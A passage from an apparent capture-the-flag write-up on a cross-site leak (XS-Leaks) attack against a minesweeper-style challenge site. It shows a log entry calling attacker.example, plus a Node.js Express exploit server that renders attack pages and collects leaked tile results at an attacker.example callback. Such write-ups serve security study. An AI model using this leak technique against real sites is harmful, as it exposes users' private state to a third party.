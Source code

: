 ```hl_lines=17 22 25
[DEBUG]   - 200 https://attacker.example/callback/safe
```

Awesome! Now we just need to put this together to be able to quickly know
whether any tile of our choosing is a bomb.

## Tying It All Together

To more efficiently trigger the bomb oracle, we can create a Node.js app using
[Express] and [Mustache] that receives the tile to be explored through the
redirect, and prints the outcome of the callback:

```js
import express from 'express';
import mustacheExpress from 'mustache-express';

const CHALL_HOST = "https://gosweeper.example";
const CALLBACK_URL = "https://attacker.example/xsleaks-callback";

const userId = "fe24ecea6cf48d9604127b1204bb24fd";

const app = express();
const port = 3000;

app.engine("mustache", mustacheExpress());

app.set('views', "./templates");
app.set('view engine', 'mustache');

app.get('/entry/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("entry", { CHALL_HOST, userId, tile });
});

app.get('/xsleaks/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("xsleaks", { CHALL_HOST, CALLBACK_URL, tile });
});

app.post('/xsleaks-callback/:result', (req, res) => {
  const { result } = req.params;
  console.log(result);
  res.status(200);
  res.end();
});

app.listen(port, () => {
  console.log(`Listening on port ${port}`);
});
```

<details><summary>Mustache templates</summary></details>


[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/